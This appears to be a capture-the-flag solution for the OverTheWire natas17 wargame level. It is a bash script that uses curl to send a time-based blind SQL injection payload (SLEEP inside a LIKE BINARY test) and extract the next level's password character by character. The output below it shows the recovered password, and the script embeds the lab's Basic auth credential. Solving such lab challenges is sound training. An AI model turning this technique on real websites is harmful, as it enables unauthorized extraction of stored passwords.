 ```bash
passwordlenght=32
CurrentChar=0
password=""
sleeptime=10
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        injection="\" AND IF(password LIKE BINARY \"$password$letter%\", SLEEP($sleeptime), 0) #"
        data="username=natas18$injection"
        curl_output=$(curl -o /dev/null -s  'http://natas17.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==' -d "$data" -w %{time_total})
        time=$(echo $curl_output | cut -d "." -f 1)
        if [ $time -ge 10 ]; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            MIDCounter=$(( $MIDCounter + 1 ))
            echo "[+] Password: $password"
            continue 2
        fi
    done
done
```

```
+] Password: x
[+] Password: xv
[+] Password: xvK
[+] Password: xvKI
[+] Password: xvKIq
[+] Password: xvKIqD
[+] Password: xvKIqDj
[+] Password: xvKIqDjy
[+] Password: xvKIqDjy4
[+] Password: xvKIqDjy4O
[+] Password: xvKIqDjy4OP
[+] Password: xvKIqDjy4OPv
[+] Password: xvKIqDjy4OPv7
[+] Password: xvKIqDjy4OPv7w
[+] Password: xvKIqDjy4OPv7wC
[+] Password: xvKIqDjy4OPv7wCR
[+] Password: xvKIqDjy4OPv7wCRg
[+] Password: xvKIqDjy4OPv7wCRgD
[+] Password: xvKIqDjy4OPv7wCRgDl
[+] Password: xvKIqDjy4OPv7wCRgDlm
[+] Password: xvKIqDjy4OPv7wCRgDlmj
[+] Password: xvKIqDjy4OPv7wCRgDlmj0
[+] Password: xvKIqDjy4OPv7wCRgDlmj0p
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pF
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFs
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFsC
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFsCs
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsD
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDj
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```
